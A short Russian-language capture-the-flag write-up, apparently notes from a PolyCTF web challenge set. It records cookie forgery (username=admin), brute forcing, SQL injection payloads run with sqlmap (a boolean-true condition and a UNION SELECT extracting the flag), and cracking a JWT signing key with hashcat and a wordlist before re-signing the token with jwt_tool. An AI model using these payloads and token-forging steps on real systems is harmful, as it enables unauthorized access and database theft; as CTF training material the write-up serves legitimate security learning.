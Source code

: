 Task2 "Чтобы получить флаг, отправьте запрос с get-параметром name: PolyCTF и post-параметром flag: yep" ![[Pasted image 20250205115558.png]]

Task 3. Выставляем Cookie: username=admin и получаем флаг

task 4. брут code

task 5. sqlmap (hard and all) Выдал данные из базы, в том числе пароли и флаг
![[Pasted image 20250205170814.png]]
-8409 OR 4979=4979 - генерирует запросы для всех купонов
-1 UNION SELECT fl4g FROM s3cret - позволяет вытащить флаг (если знать название таблицы с колонок)

task 6. Изменение значения в репиторе 

task 7 . Получаем jwt токен из запроса eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.KVcwu6cwfsOQXQooeH7-S0j__1NwteG-9jFZ63aApe0 ![[Pasted image 20250205201706.png]]
Через hashcat (hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt ) получаем закрытый ключ IC3QU33NS

С помощью jwt_tool (https://github.com/ticarpi/jwt_tool) изменяем данные в токене ```
python3 jwt_tool.py -T -p IC3QU33NS  eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.KVcwu6cwfsOQXQooeH7-S0j__1NwteG-9jFZ63aApe0 -S hs256```
![[Pasted image 20250205202008.png]]

Полученный токен отправляем через repeator и получаем флаг
![[Pasted image 20250205202037.png]]
